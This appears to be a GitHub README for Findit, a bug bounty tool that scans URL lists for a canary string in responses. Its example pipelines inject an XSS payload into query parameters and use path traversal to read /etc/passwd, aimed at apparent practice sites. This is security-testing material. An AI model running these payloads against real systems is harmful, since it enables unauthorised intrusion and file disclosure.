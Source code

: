 # Findit

Findit is a tool used to parse a canary value from a web request.  
This is useful in bugbounties when you want to find a return value from a list of URL's.  
Think xss, ssti, sqli etc. 


## Install 

```
go install github.com/AssassinUKG/findit@latest
```

## Usage

```
cat URLsFile.txt | findit -c "alert(0)"
```

## Screenshot

![image](https://user-images.githubusercontent.com/5285547/178983196-1aa64236-4541-4d93-9b8f-2465394d88da.png)

---
## Example usages

XSS 

```
echo http://testphp.vulnweb.com/ | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|tff|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | findit -c "alert(0)"
```

/etc/passwd
> Example to find /etc/passwd, one one url 

```
echo "https://0aa9003403a40852c028b1270079009b.web-security-academy.net/image?filename=" | qsreplace "../../../../etc/passwd" | findit -c "root:x"
```

![image](https://user-images.githubusercontent.com/5285547/178974785-cbbab50c-bd6e-4a4e-ae7d-822ba3ca46f6.png)

